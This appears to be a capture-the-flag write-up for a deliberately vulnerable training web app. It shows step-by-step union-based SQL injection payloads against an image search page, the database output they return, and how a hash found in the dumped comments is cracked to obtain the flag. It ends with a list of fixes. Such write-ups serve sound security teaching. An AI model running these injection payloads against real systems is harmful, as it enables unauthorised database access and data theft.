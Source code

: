 # SQL Injection (Advanced) 🏴<!-- omit in toc -->

```txt
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

- [Location 🗺️](#location-️)
- [Vulnerability](#vulnerability)
- [Method](#method)
- [Tools & References](#tools--references)
- [Fix](#fix)

## Location 🗺️

'http://\<ip-address>:80/?page=searchimg'

## Vulnerability

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method

I entered `1 OR 1` in the search box. This returned:

```txt
ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

So I start running commands to find just one query, I entered 5 (in case it is lucky) in the box and this returns:

```txt
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

The first thing to do is to find out which tables are present and which coloumns. I ran the query:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images
```

We have found the list_ table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT title, comment FROM list_images
```

This will return:

```txt
ID: 5 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT title, comment FROM list_images
Title: An image about the NSA !
Url : Nsa

ID: 5 UNION SELECT title, comment FROM list_images
Title: There is a number..
Url : 42 !

ID: 5 UNION SELECT title, comment FROM list_images
Title: Google it !
Url : Google

ID: 5 UNION SELECT title, comment FROM list_images
Title: Yes we can !
Url : Obama

ID: 5 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

ID: 5 UNION SELECT title, comment FROM list_images
Title: Because why not ?
Url : tr00l
```

This is an MD5 hash is:
`1928e8083cf461a51303633093573c46: albatroz`

The SHA256 for `albatroz: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Tools & References

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.

Explain the basic functioning of the vulnerability

Demonstrate & Compare that the two flags are indeed identical
